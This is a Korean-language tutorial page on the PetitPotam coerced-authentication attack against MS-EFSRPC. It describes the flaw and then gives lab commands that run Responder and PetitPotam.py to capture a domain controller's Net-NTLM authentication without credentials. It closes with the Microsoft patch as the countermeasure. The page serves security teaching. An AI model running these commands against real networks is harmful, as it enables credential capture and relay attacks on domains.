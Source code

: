 # MS-EFSRPC - Petitpotam



![](../../.gitbook/assets/petitpotam.drawio.png)

MS-EFSRPC RPC 함수들은 원격 호스트의 파일을 암호화하고 백업을 도와주기 위해서 만든 RPC이다.&#x20;

2021년 7월경 [@topotam](https://github.com/topotam) 이라는 해커가 MS-EFSRPC 와 관련된 RPC 함수들 중 몇가지가 강제 인증에 취약하다는 사실을 발견했다. 또한, 몇 몇 RPC 함수들은 도메인 유저 인증이 아예 필요없이 강제 인증이 가능했다. 마지막으로, 모든 도메인 컨트롤러들이 취약한 상태에 놓여있었다. Topotam은 이 강제 인증 공격을 "PetitPotam" 이라고 이름을 붙였다.&#x20;

### 실습&#x20;

Petitpotam 과 자주 쓰이는 공격은 ADCS - ESC8 페이지에서 정리한다. 이 실습에서는 간단하게 Petitpotam 을 이용해서 도메인 컨트롤러의 NTLM 인증 트래픽을 받는다. 사용할 Petitpotam.py 툴은 [여기서 다운](https://github.com/topotam/PetitPotam) 받는다.&#x20;

1. NTLM 인증 트래픽을 받을 Responder 세팅&#x20;

```
responder -I <NIC> -v 
responder -I eth1 -v 
```

2\. Unauthenticated Petitpotam 을 이용해 유저 계정 없이 Petitpotam 공격&#x20;

```
python3 Petitpotam.py <공격자 IP> <타 IP> 
python3 PetitPotam.py 192.168.40.182 192.168.40.160
```

공격 결과 확인&#x20;

![](<../../.gitbook/assets/image (4) (2).png>)

3\. Responder 를 통해서 도메인 컨트롤러의 Net-NTLM 인증 트래픽 확인&#x20;

![](<../../.gitbook/assets/image (5) (2).png>)

### 대응 방안&#x20;

Petitpotam 과 관련된 [패치](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)는 2021년 8월달에 발표됐다. 패치를 적용하면 유저 인증이 필요한 Petitpotam이나 필요없는 Petitpotam이나 모두 통하지 않는다.&#x20;



### 레퍼런스&#x20;

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31" %}
